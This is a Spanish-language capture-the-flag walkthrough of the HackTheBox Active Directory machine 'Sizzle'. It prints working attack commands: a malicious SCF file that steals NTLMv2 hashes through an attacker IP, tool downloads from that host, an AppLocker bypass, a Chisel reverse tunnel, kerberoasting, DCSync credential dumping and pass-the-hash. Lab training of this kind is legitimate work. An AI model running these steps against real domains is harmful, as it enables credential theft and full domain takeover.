# Sizzle

`Sizzle` es un sistema operativo Windows con un entorno de Active Directory que presenta una dificultad increíble. Un directorio en el que se puede escribir en un recurso compartido `SMB` permite robar hashes `NTLM` que se pueden descifrar para acceder al Portal de servicios de certificados. Se puede crear un certificado autofirmado utilizando la `CA` y utilizarlo para `PSRemoting`. Un `SPN` asociado a un usuario permite un ataque kerberoast en el sistema. Se descubre que el usuario tiene derechos de replicación que se pueden utilizar de forma abusiva para obtener hashes de administrador a través de `DCSync`.

<figure><figcaption></figcaption></figure>

## Reconnaissance <a href="#reconnaissance" id="reconnaissance"></a>

Realizaremos un reconocimiento con **nmap** para ver los puertos que están expuestos en la máquina **Sizzle**.

```bash
nmap -p- --open -sS --min-rate 1000 -Pn -n 10.10.10.103 -oG allPorts
```

<figure><figcaption></figcaption></figure>

Lanzaremos scripts de reconocimiento sobre los puertos encontrados y lo exportaremos en formato oN y oX.


```bash
nmap -sCV -p21,53,80,135,139,389,443,445,464,593,636,3268,3269,5985,5986,9389,47001,49664,49665,49666,49669,49673,49690,49691,49693,49696,49708,49724,49743 10.10.10.103 -A -oN targeted -oX targetedXML
```


<figure><figcaption></figcaption></figure>

Transformaremos el archivo XML obtenido en el resultado de **nmap** y lo transformaremos en un archivo HTML. Levantaremos un servidor HTTP con Python3.

```bash
xsltproc targetedXML > index.html

python3 -m http.server 80
```

<figure><figcaption></figcaption></figure>

Accederemos a[ http://localhost](http://localhost) y comprobaremos el resultado en un formato más cómodo para su análisis.

<figure><figcaption></figcaption></figure>

Comprobaremos el nombre del dominio con el cual nos enfrentamos a través del siguiente comando.

Verificaremos también a qué tipo de máquina nos enfrentamos a través de **netexec**.

```bash
ldapsearch -x -H ldap://10.10.10.103 -s base | grep defaultNamingContext

nxc smb 10.10.10.103
```

<figure><figcaption></figcaption></figure>

Procederemos a añadir la entrada en nuestro archivo **/etc/hosts**

```bash
catnp /etc/hosts | grep sizzle
```

<figure><figcaption></figcaption></figure>


## Web Enumeration

Procederemos a acceder a [https://sizzle.htb.local](https://sizzle.htb.local) el cual contiene un GIF, aparantemente no contiene ningún metadato ni nada extraño.

<figure><figcaption></figcaption></figure>

Revisaremos las tecnologías que utiliza la aplicación web a través de la herramienta de _**whatweb**_.

```bash
whatweb https://sizzle.htb.local
```

<figure><figcaption></figcaption></figure>

Por otra parte, procederemos a realizar una enumeración de posibles directorios del sitio web.


```bash
gobuster dir -u https://sizzle.htb.local -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 200
```


<figure><figcaption></figcaption></figure>

Procederemos a revisar si podemos hacer (Directory Listing) sobre los directorios que hemos encontrado. Verificamos que nos aparece mensaje de _**403 Forbidden**_.

<figure><figcaption></figcaption></figure>

## FTP Enumeration

Procederemos a enumerar el servicio de FTP a través del usuario _**anonymous**_, verificamos que podemos acceder correctamente pero no dispone de ningún directorio/archivo en el servidor FTP.

```bash
ftp 10.10.10.103
```

<figure><figcaption></figcaption></figure>

## SMB Enumeration

Revisaremos si el usuario _**guest**_ se encuentra habilitado y podemos autenticarnos al sevidor SMB. Verificamos que el usuario se encuentra activo y dispone de permisos _**READ**_ sobre un recurso compartido nombrado (Department Shares).

```bash
nxc smb 10.10.10.103 -u 'guest' -p ''

nxc smb 10.10.10.103 -u 'guest' -p '' --shares
```

<figure><figcaption></figcaption></figure>

Verificaremos a través del módulo de (spider\_plus) la estructura de los recursos compartidos, para ver si dispone de algún archivo interesante.

En este caso, vemos que hay archivos pero ninguno que nos pueda aportar información relevante.

```bash
nxc smb 10.10.10.103 -u 'guest' -p '' -M spider_plus

cat /tmp/nxc_hosted/nxc_spider_plus/10.10.10.103.json | jq
```

<figure><figcaption></figcaption></figure>

### SCF File Attack for NTLMv2 Hash Stealing

Uno de los ataques más eficaces en redes SMB es el **Hash Stealing** utilizando un archivo SCF malicioso. Este tipo de ataque permite interceptar las credenciales NTLMv2 de usuarios conectados a recursos compartidos en un servidor vulnerable.

Antes de proceder a analizar el recurso SMB, lo primero es montar el recurso en nuestro sistema local. Esto nos permitirá explorar los directorios y sus permisos para comprobar si podemos escribir en alguno de ellos.

<pre class="language-bash"><code class="lang-bash">mkdir /mnt/shares
<strong>
</strong><strong>mount -t cifs -o username=guest,password=  '//10.10.10.103/Department Shares' /mnt/shares
</strong>
cd /mnt/shares

ls -l
</code></pre>

<figure><figcaption></figcaption></figure>

A través del sguiente comando, procederemos a enumerar todos los directorios para buscar si disponemos de permisos de Escritura sobre alguno de ellos.

Verificamos que hay un recurso llamado "Users/Public" que podríamos probar de realizar el ataque en este recurso.


```bash
for dir in $(ls /mnt/shares); do for subdir in $(ls /mnt/shares/$dir); do smbcacls "//10.10.10.103/Department Shares" "$dir/$subdir" -N | grep -i everyone | grep -i full > /dev/null && echo "[*] Directorio $dir/$subdir: Permisos de escritura"; done; done
```


<figure><figcaption></figcaption></figure>

Una vez montado el recurso SMB, procederemos a crear un archivo SCF malicioso que redirija las acciones realizadas sobre el recurso SMB hacia nuestro sistema. Este archivo malicioso permitirá interceptar las comunicaciones SMB y posteriormente robar los hashes NTLMv2.

```bash
[Shell]
Command=2
IconFile=\\10.10.16.5\smbFolder\test.ico
[Taskbar]
Command=ToggleDesktop
```

Una de las maneras que disponemos de realizar el ataque, es montando un servidor SMB en nuestra Kali para recibir el hash NTLMv2.

Para empezar, subiremos el archivo SCF malicioso en el recurso que podemos escribir (Users/Public) y con el servidor SMB montado, al pasar un tiempo vemos que recibimos el hash NTLMv2 del usuario "amanda".

```bash
smbserver.py smbFolder $(pwd) -smb2support

smbclient "//10.10.10.103/Department Shares/" -U 'Guest%'

cd Users/Public

put file.scf 
```

<figure><figcaption></figcaption></figure>

Otra de las maneras de realizar el ataque sin tener el servidor SMB montado en nuestro equipo atacante, es mediante el Responder, el cual recibirá el hash NTLMv2.

```bash
responder -I tun0 -v

smbclient "//10.10.10.103/Department Shares/" -U 'Guest%'

cd Users/Public

put file.scf 
```

<figure><figcaption></figcaption></figure>

Guardaremos el hash NTLMv2 en un archivo TXT y a través de la herramienta de _**hashcat**_, procederemos a intentar crackear el hash para obtener la contraseña en texto plano.

```bash
hashcat -a 0 hashes /usr/share/wordlists/rockyou.txt
```

<figure><figcaption></figcaption></figure>

## Shell as amanda

Primero, procederemos a validar si las credenciales obtenidas para el usuario **amanda** son válidas, y también investigaremos de qué recursos compartidos tenemos permisos.

Al realizar un escaneo de recursos compartidos SMB en la máquina objetivo (10.10.10.103), observamos que tenemos acceso de **READ** sobre el recurso compartido llamado **CertEnroll**. Este recurso es utilizado por los servicios de Active Directory para gestionar certificados, donde se almacenan las solicitudes, plantillas y configuraciones asociadas. Aunque tenemos acceso de solo lectura, podemos intentar aprovechar esta entrada para realizar alguna acción.

Con las credenciales **amanda / Ashare1972**, intentamos conectarnos al WinRM, pero descubrimos que la autenticación NTLM no está funcionando correctamente. A pesar de ingresar las credenciales correctamente, el sistema simplemente nos vuelve a solicitar la autenticación, indicando que probablemente esté configurado para requerir un mecanismo de autenticación más seguro.

```bash
nxc smb 10.10.10.103 -u 'amanda' -p 'Ashare1972'

nxc smb 10.10.10.103 -u 'amanda' -p 'Ashare1972' --shares
```

<figure><figcaption></figcaption></figure>

Al intentar acceder al servicio WinRM con las credenciales `amanda / Ashare1972`, nos encontramos con que la autenticación NTLM no funciona correctamente.

A pesar de ingresar las credenciales correctamente, el sistema simplemente nos vuelve a solicitar la autenticación, como si las credenciales fueran inválidas. Esto ocurre porque el servicio está bloqueado o configurado para requerir un mecanismo de autenticación más seguro.

```bash
evil-winrm -i 10.10.10.103 -u 'amanda' -p 'Ashare1972'
```

<figure><figcaption></figcaption></figure>

### Generate Certificate and Key for amanda accessing /certsrv

Dado que la autenticación NTLM está bloqueada, decidimos investigar el recurso compartido **CertEnroll** para buscar un servicio alternativo que permita la autenticación. Al explorar el sitio web asociado, encontramos el directorio **/certsrv/**, que pertenece al servicio de **Active Directory Certificate Services (AD CS)**.

Utilizamos el escáner **gobuster** para realizar un barrido del sitio web y verificamos que existe el directorio [**https://sizzle.htb.local/certsrv/**](https://sizzle.htb.local/certsrv/):


```bash
gobuster dir -u http://sizzle.htb.local -w /usr/share/seclists/Discovery/Web-Content/IIS.fuzz.txt -t 200
```


<figure><figcaption></figcaption></figure>

Intentamos acceder a [https://sizzle.htb.local/certsrv/](https://sizzle.htb.local/certsrv/) con las credenciales de la usuaria (amanda@htb.local).

<figure><figcaption></figcaption></figure>

Verirficamos que logramos ingresar a la página de **Microsoft Active Directory Certificate Services (AD CS)**.

<figure><figcaption></figcaption></figure>

En la página, observamos que se nos permite solicitar un certificado, eligiendo entre **User Certificate** o **Advanced certificate request**. Debemos seleccionar la opción de **Advanced certificate request**.

<figure><figcaption></figcaption></figure>

Procedemos a generar un **Certificate Signing Request (CSR)** con **OpenSSL**. Este CSR contiene información que enviaremos al servidor para obtener un certificado válido.

```bash
openssl req -newkey rsa:2048 -nodes -keyout amanda.key -out amanda.csr
```

<figure><figcaption></figcaption></figure>

Volvemos al sitio **/certsrv/** y pegamos el contenido del CSR en el formulario de solicitud.

<figure><figcaption></figcaption></figure>

El servidor nos ofrece el certificado en formato Base64. Seleccionamos la opción de **Download certificate** para descargar el certificado correspondiente al usuario **amanda**.

<figure><figcaption></figcaption></figure>

Revisaremos que disponemos de los archivos CSR, KEY y CER de los certificados que hemos generado.

<figure><figcaption></figcaption></figure>

Ahora, con el certificado descargado, procedemos a autenticar al usuario **amanda** utilizando **WinRM**. Reemplazamos las credenciales tradicionales con el certificado, lo que nos permite acceder correctamente al equipo:

```bash
evil-winrm -S -c certnew.cer -k amanda.key -i 10.10.10.103 -u 'amanda' -p 'Ashare1972'
```

<figure><figcaption></figcaption></figure>

## BloodHound Enumeration

Dado que disponemos de credenciales válidas de un usuario del dominio, procederemos a realizar una enumeración a través de _**BloodHound**_ en buscar de vectores para elevar nuestros privilegios.

```bash
bloodhound-python -c All -ns 10.10.10.103 -u 'amanda' -p 'Ashare1972' -d htb.local --zip
```

<figure><figcaption></figcaption></figure>

Al enumerar en BloodHound, verificamos que hay un usuario que es Kerberoastable, por lo tanto, es susceptible a realizar un _**Kerberoasting Attack**_.

<figure><figcaption></figcaption></figure>

## Initial Access

### Kerberoasting Attack (GetUserSPNs) - \[FAILED]

Dado que hemos visto que existe un usuario susceptible al _**Kerberoasting Attack**_, procederemos a intentar a realizar el ataque a través de la herramienta _**GetUserSPNs**_, verificamos que no nos reporta ningún resultado.

Esto es debido seguramente a que el Kerberos no se encuentra expuesto, deberemos de buscar otra manera de explotar este ataque.

```bash
impacket-GetUserSPNs -dc-ip 10.10.10.103 htb.local/amanda -debug 2>/dev/null
```

<figure><figcaption></figcaption></figure>

### Kerberoasting Attack (Rubeus)

Dado que disponemos de acceso a la máquina víctima (Domain Controller), podemos de probar de realizar el _**Kerberoasting Attack**_ a través de la herramienta de _**Rubeus.exe**_.

Procederemos  a intentar subir el binairo del _**Rubeus.exe**_ y en nuestro caso no nos permite la subida directamente con el comando "upload" que nos poporciona _**evil-winrm**_.

<figure><figcaption></figcaption></figure>

Probaremos de levantar un servidor web con Python y a descargar el archivo a través de IWR, verificamos que el binario se ha descargado correctamente en el equipo víctima.

```bash
python3 -m http.server 80

IWR -Uri http://10.10.16.5/Rubeus.exe -OutFile Rubeus.exe
```

<figure><figcaption></figcaption></figure>

Al intentar ejecutar el binario en la ruta (C:\Temp), nos aparece un eror indicando que se ha bloqueado la ejecución debido a una política, muy probablemente debido al AppLocker.

<figure><figcaption></figcaption></figure>

A través del siguiente comando, revisaremos la política del AppLocker y verificamos que hay una excepción en los directorios que se encuentran dentro de (WinDir).

```powershell
Get-AppLockerPolicy -Effective | select -ExpandProperty RuleCollections
```

<figure><figcaption></figcaption></figure>

Otra de las maneras para evitar la restricción del _**AppLocker**_, es mediante las siguientes rutas que nos encontramos en el siguiente repositorio de GitHub. [Generic AppLocker ByPasses](https://github.com/api0cradle/UltimateAppLockerByPassList/blob/master/Generic-AppLockerbypasses.md)

<figure><figcaption></figcaption></figure>

En nuestro caso, hemos optado por crear un directorio en (C:\Windows\Temp), moveremos el binario a este nuevo directorio creado.

<figure><figcaption></figcaption></figure>

Una vez obtenido el binario en este nuevo directorio, al realizar el ataque, verificamos que hemos conseguido el TGS (Ticket Granting Service) del usuario (mrlky@htb.local).

```powershell
./Rubeus.exe kerberoast /creduser:htb.local\amanda /credpassword:Ashare1972
```

<figure><figcaption></figcaption></figure>

### Performing a port forwarding to perform a Kerberoasting attack (Chisel && GetUserSPNs)

A continuación, veremos otra de las maneras efectivas de explotar este ataque mediante Port-Forwarding.

Dado que el puerto 88 (Kerberos) no se encuentra expuesto en el equipo víctima y con la herramienta de _**impacket-GetUserSPNs**_ al principio no pudimos efectuar el ataque, el objetivo será realizar el Port-Forwarding del puerto 88 (Kerberos) y 389 (LDAP) del Domain Controller para que se encuentren accesibles desde nuestro equipo local de atacante.

Para ello, pasaremos el binario del _**chisel.exe**_ al equipo víctima, configuraremos el _**chisel**_ en sevidor en la máquina Kali y cliente en el equipo Windows, haremos que el Kerberos y LDAP sean accesibles por los mismos puertos pero desde nuestro equipo de atacante.


```bash
# Desde el equipo atacante
python3 -m http.server 80

# Desde el equipo víctima
IWR -Uri http://10.10.16.5/chisel.exe -OutFile chisel.exe

# Desde el equipo atacante
./chisel server --reverse -p 1234

# Desde el equipo víctima
./chisel.exe client 10.10.16.5:1234 R:88:127.0.0.1:88 R:389:127.0.0.1:389
```


<figure><figcaption></figcaption></figure>

Revisaremos que en nuestro equipo, los puertos 88 (Kerberos) y 389 (LDAP) se encuentran accesibles correctamente a través de chisel.

<figure><figcaption></figcaption></figure>

Pocederemos de realizar nuevamente el ataque mediante la herramienta de _**impacket-GetUserSPNs**_ al localhost (127.0.0.1) y verificamos que ahora si hemos podido realizar el ataque desde la máquina Kali y hemos obtenido el TGS (Ticket Granting Service).

```bash
impacket-GetUserSPNs -dc-ip 127.0.0.1 htb.local/amanda -request 2>/dev/null
```

<figure><figcaption></figcaption></figure>

Al obtener el TGS; pocederemos a crackearlo con **hashcat** y verificamos que hemos logrado obtener la contraseña en texto plano del usuario _**mrlky@htb.local**_.

```bash
hashcat -a 0 hash.txt /usr/share/wordlists/rockyou.txt
```

<figure><figcaption></figcaption></figure>

Validaremos que las credenciales de este usuario son válidas y de los recursos que tiene acceso dicho usuario.

```bash
nxc smb 10.10.10.103 -u 'mrlky' -p 'Football#7'

nxc smb 10.10.10.103 -u 'mrlky' -p 'Football#7' --shares
```

<figure><figcaption></figcaption></figure>

## Privilege Escalation

Revisando nuevamente en BloodHound, verificamos que este nuevo usuario dispone de permisos de DCSync sobre el dominio.

Este permiso habilita al usuario a extraer los hashes NTLM de todos los usuarios del dominio, lo que facilita ataques como _**Pass-The-Hash**_, permitiendo el acceso a servicios y equipos sin necesidad de conocer las credenciales en texto plano de los usuarios del dominio, incluyendo a los usuarios que sean Domain Admins.

<figure><figcaption></figcaption></figure>

### DCSync Attack (secretsdump)

Procederemos a realizar el ataque de _**DCSync Attack**_ mediante la herramienta de _**secretsdump**_.

Verificamos que hemos logrado obtener todos los hashes NTLM de los usuarios del dominio, incluyendo las del usuario Administrator.

```bash
secretsdump.py -just-dc-ntlm htb.local/mrlky@10.10.10.103
```

<figure><figcaption></figcaption></figure>

Validaremos que podemos autenticarnos mediante _**Pass-The-Hash**_ con el hash NTLM del usuario Administrator.

```bash
nxc smb 10.10.10.103 -u 'Administrator' -H 'f6b7160bfc91823792e0ac3a162c9267'
```

<figure><figcaption></figcaption></figure>

Procederemos a conectarnos al Domain Controller mediante la herramienta de _**wmiexec**_ realizando _**Pass-The-Hash**_.

Verificamos del acceso correctamente y de la flag de _**root.txt.**_

```bash
wmiexec.py htb.local/Administrator@10.10.10.103 -hashes :f6b7160bfc91823792e0ac3a162c9267
```

<figure><figcaption></figcaption></figure>
